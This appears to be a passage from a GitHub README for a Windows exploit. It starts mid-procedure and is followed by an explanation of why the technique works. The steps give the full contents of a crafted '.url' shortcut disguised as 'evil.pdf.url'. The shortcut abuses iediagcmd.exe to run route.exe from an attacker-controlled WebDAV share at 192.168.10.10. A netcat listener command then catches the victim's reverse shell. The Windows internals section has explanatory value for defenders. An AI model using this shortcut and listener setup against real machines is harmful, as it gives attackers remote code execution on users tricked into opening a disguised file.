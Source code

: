     You can move your payload to the webdav directory without shutting down the server. Or if you wanna change the directory to where your reverse shell payload is then you can use the `--dir` flag. Choice is yours! Always has been.

3. The vulnerability is in the capability of windows to execute PE files using webclient. Create a `.url` based file (eg: evil.pdf.url) like the one given below:
    ```
    [InternetShortcut]
    URL=C:\Program Files\Internet Explorer\iediagcmd.exe
    WorkingDirectory=\\192.168.10.10\webdav
    ShowCommand=7
    IconIndex=13
    IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
    Modified=20F06BA06D07BD014D
    ```
    This file uses `iediagcmd.exe` as it's LOLBIN, which in turn calls `route.exe` located in the Attacker controlled WebDAV server. 
    I have my default share of WebDAV server named as `/webdav`, hence the UNC path is `\\<ATTACKER_IP aka 192.168.10.10>\webdav`. If your share path is anywhere else you'll have to modify the `WorkingDirectory` parameter or the file.

4. Open a netcat listener on attacker machine.
    ```bash
    nc -vnlp 9999
    ```
    In this case the victim has to interact with the file to get a reverse shell.

## Why it works?

When a user interacts with a `.url` file in Windows, a series of internal processes are triggered that can be leveraged to execute code from a remote location, such as a WebDAV share. This analysis breaks down the internal mechanisms of Windows that enable this, focusing on the WorkingDirectory parameter and the role of WebDAV in loading executables.

### The Execution Flow of a .url File

The process begins when a user double-clicks a `.url` file. This action is handled by the Windows Shell, which uses the `ShellExecute` or `ShellExecuteEx` API functions from the `shell32.dll` library to process the file. `ShellExecuteEx` is a versatile function that can open or perform actions on any file type by identifying the default handler registered for that file's extension in the Windows Registry. For `.url` files, the registered handler is typically the Internet Shortcut file type. The shell then parses the contents of the `.url` file, which is a plain text file containing sections and key-value pairs. A specially crafted `.url` file can be used to launch a local executable instead of opening a web page.

### The Role of ShellExecuteEx and CreateProcessW
The `ShellExecuteEx` function uses a `SHELLEXECUTEINFO` structure to manage the execution. Key members of this structure in this context are:
```
lpFile: The path to the .url file itself.
lpDirectory: This sets the working directory for the new process.
nShow: Controls how the application's window is displayed (e.g., minimized, hidden).
```
